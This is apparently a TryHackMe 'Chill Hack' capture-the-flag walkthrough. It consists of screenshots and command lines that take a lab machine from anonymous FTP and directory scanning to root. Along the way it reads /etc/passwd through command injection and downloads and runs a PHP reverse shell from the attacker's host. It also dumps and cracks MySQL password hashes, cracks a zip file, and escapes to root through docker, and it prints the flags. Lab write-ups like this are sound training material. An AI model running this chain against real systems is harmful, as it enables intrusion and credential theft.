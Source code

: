 ### 05-Mar-24-Tue

[TryHackMe | Chill Hack](https://tryhackme.com/room/chillhack)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/20125be3-3285-4fb8-8d6d-a1039d894eb3)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f5952956-8ae0-4b57-8140-a605155da40c)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/32105c8c-02f4-4227-ae55-e2737ad24c6b)

```
ftp anonymous@10.10.20.118
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c5d4cc88-cd0f-42d2-93ff-bcccd99b3ae6)

http://10.10.20.118/

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/88042967-dc26-4fd8-926d-b9f4be79772d)

```
gobuster dir -u http://10.10.52.188/ -w /usr/share/wordlists/dirb/common.txt
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/40de5bad-b385-4548-9560-b21011b14742)

http://10.10.52.188/secret/

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/55083eda-f85e-4f15-8e9c-004b6de3ebe7)

```
pwd
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/7b5c0104-b6d4-4586-bc20-118ed2f17bed)

```
whoami
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6fe99637-ff56-47ad-83d6-b9bb0bf22dc2)

```
which python
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/1f9aa056-696b-4586-884d-74c8ee934327)

https://dangilbert.gitbook.io/try-hack-me/writeups/chillhack

```
echo $(cat /etc/passwd)
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/896d458f-3e28-4bbe-a8f1-546698f021ec)

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin aurick:x:1000:1000:Anurodh:
/home/aurick:/bin/bash mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false apaar:x:1001:1001:,,,:
/home/apaar:/bin/bash anurodh:x:1002:1002:,,,:
/home/anurodh:/bin/bash ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```

```
echo $(cat index.php | base64)
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f5c5fa68-22d5-45be-9f41-244176e47fc0)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/cf668110-d0b2-4f94-9035-c2123a4fe096)

```
curl http://10.17.44.152:8000/revshell.php -o /dev/shm/revshell.php
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/34af0cc9-4eec-4a15-b3bb-319896e277cb)

```
php7.2 /dev/shm/revshell.php
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b7c9c84b-8034-4b2c-b277-b23aea6369c2)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6c193fe4-592b-49ca-a7c5-ddb60271faf0)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6bda7e47-ba46-4fd4-90b5-8ea9df271f84)

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f5f6cb2a-3386-47db-a151-e040f90fcaa9)

```
mysql -u root -p
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/dbef2940-7640-43db-830f-da070cfcfeea)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/71e7fe1c-eabd-4a92-9727-c1e12d2d3fbb)


| id | firstname | lastname | username  | password                         |
| - | - | - | - | - |
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ff1a766a-566b-4add-ba66-0058124c7b5a)

| Hash | Type | Result |
| - | - | - |
| 686216240e5af30df0501e53c789a649	| md5 |	dontaskdonttell |
| 7e53614ced3640d5de23f111806cc4fd	| md5	| masterpassword |

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/066f4971-662a-4d0e-896e-e80f9d6ed717)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/8ce218a5-be2a-4a17-967e-7e8e84ac6fda)

https://drive.google.com/file/d/1XESxM91W-L3ONBw3rQTR_mrf67mhT3OZ/view?source=post_page-----889274e1aa78--------------------------------

```
cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

```
python3 -m http.server 12345
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/bcc4fc11-8c5a-4790-9d81-2cc8ef9015ab)

```
wget -c http://10.10.51.43:12345/hacker-with-laptop_23-2147985341.jpg
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/41eebc01-30ba-4765-b4ac-b714b71eab50)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/83ed790e-7a7e-479e-8a9d-a49969ceffef)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a455bb58-5cbd-47a9-884d-b58b319e6099)

```
fcrackzip --use-unzip --dictionary --init-password /usr/share/wordlists/rockyou.txt backup.zip
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/cd948a36-ac63-41b7-b977-4b5b5efec040)

```
pass1word
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ed0231c1-c39f-4423-9bac-e1892344321b)

```
echo 'IWQwbnRLbjB3bVlwQHNzdzByZA==' |base64 -d
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c092e285-5ad5-4ebe-a150-98a4e815935a)

```
!d0ntKn0wmYp@ssw0rd
```

```
ssh anurodh@10.10.51.43
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/560f0403-0f3e-4c88-bff0-225876cfc355)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/4bb0e7c5-9ad8-4985-9e39-5427b8552cfd)

https://gtfobins.github.io/gtfobins/docker/

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

```
grep -rnw '/root' -e 'USER-FLAG' 2>/dev/null
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/47e0987b-816f-4137-95f5-d081accff55d)

```
# cat /root/proof.txt


                                        {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}


Congratulations! You have successfully completed the challenge.


         ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
 \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    / 
 | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'  
  \  ,  - /==/|==|_  ,`-._|==|- `-._|==|- `-._        |==|  '='   /\==\ -    ,_ /|==|  /\ , |==|_  ,`-._ 
  |-  /\ /==/ /==/ ,     //==/ - , ,/==/ - , ,/       |==|-,   _`/  '.='. -   .' /==/, | |- /==/ ,     / 
  `--`  `--`  `--`-----`` `--`-----'`--`-----'        `-.`.____.'     `--`--''   `--`./  `--`--`-----``  


--------------------------------------------Designed By -------------------------------------------------------
                                        |  Anurodh Acharya |
                                        ---------------------

                                     Let me know if you liked it.

Twitter
        - @acharya_anurodh
Linkedin
        - www.linkedin.com/in/anurodh-acharya-b1937116a



# 
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6acacacf-0aab-41d4-90b4-61141c98e2ce)
